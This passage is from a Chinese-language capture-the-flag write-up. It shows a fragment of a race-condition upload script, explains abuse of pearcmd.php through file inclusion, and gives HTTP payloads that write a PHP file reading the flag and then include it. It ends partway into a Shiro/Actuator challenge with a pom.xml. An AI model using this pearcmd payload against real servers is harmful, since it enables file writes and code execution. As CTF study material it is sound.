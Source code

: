 ```python
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))

    wait(futures)
```

##### pearcmd.php的利用

条件竞争其实都应该很熟悉了，但是对于`pearcmd.php`的利用应该大家都还不是很熟悉，这次看到大佬的文章后确实是又涨姿势了。

pecl是PHP的拓展管理命令行工具，pear则是pecl的依赖库。在Docker中，该工具被默认安装，且路径为`/usr/local/lib/php`。

由于设计之初就没有想到将该工具用于Web服务，故没有考虑其安全隐患，但是如果后端存在任意文件包含的话，这就使得该工具可以作为一个突破点。

具体的分析过程见大佬博客，大意是PHP由于没有严格的按照RFC来处理query-string，使得我们即使传入包含等于号的query-string时，这个值也将被赋值给`$_SERVER['argv']`，而`pear`中获取命令的函数如果找不到`$argv`时，则会尝试`$_SERVER['argv']`，这也就是说我们可以通过Web的query-string来控制命令行参数。

对于此题而言，请求为：

```http
GET /?name=cfile&value=/usr/local/lib/php/pearcmd.php&+config-create+/&/<?=show_source('/ffffffff14ggggggg3')?>+/tmp/hello.php
```

发送这个数据包就会在`/tmp`下创建一个`hello.php`，其内容包含了读取Flag的代码。

随后，请求：

```http
GET /?name=cfile&value=/tmp/hello.php
```

即可拿到Flag。

### Pentest in Autumn

> 题目好像有点问题，不知道是部署的时候特意这么做的还是意外了，访问actuator时要加`prefix=/;`，不然就会爆容器不存在，请重新下发，感觉是平台的锅。

根据题目放出的pom文件，可以看到有Shiro以及Actuator：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.5.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.demo</groupId>
    <artifactId>demo</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>demo</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>
```
